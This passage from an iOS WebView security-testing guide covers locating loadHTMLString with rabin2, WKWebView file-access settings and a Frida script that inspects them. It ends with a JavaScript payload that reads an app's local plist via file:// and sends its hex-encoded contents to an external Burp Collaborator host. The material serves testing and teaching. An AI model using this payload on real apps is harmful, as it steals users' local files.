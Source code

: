To find these methods in the source code or compiled binary, commands like the following can be used:

```bash
$ rabin2 -zz ./WheresMyBrowser | grep -i "loadHTMLString"
231 0x0002df6c 24 (4.__TEXT.__objc_methname) ascii loadHTMLString:baseURL:
```

Regarding **file access**, UIWebView allows it universally, whereas WKWebView introduces `allowFileAccessFromFileURLs` and `allowUniversalAccessFromFileURLs` settings for managing access from file URLs, with both being false by default.

A Frida script example is provided to inspect **WKWebView** configurations for security settings:

```bash
ObjC.choose(ObjC.classes['WKWebView'], {
  onMatch: function (wk) {
    console.log('onMatch: ', wk);
    console.log('URL: ', wk.URL().toString());
    console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
    console.log('allowFileAccessFromFileURLs: ',
            wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
    console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
    console.log('allowUniversalAccessFromFileURLs: ',
            wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
  },
  onComplete: function () {
    console.log('done for WKWebView!');
  }
});
```

Lastly, an example of a JavaScript payload aimed at exfiltrating local files demonstrates the potential security risk associated with improperly configured WebViews. This payload encodes file contents into hex format before transmitting them to a server, highlighting the importance of stringent security measures in WebView implementations.

```javascript
String.prototype.hexEncode = function(){
    var hex, i;
    var result = "";
    for (i=0; i<this.length; i++) {
        hex = this.charCodeAt(i).toString(16);
        result += ("000"+hex).slice(-4);
    }
    return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
        xhr2.send(null);
    }
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
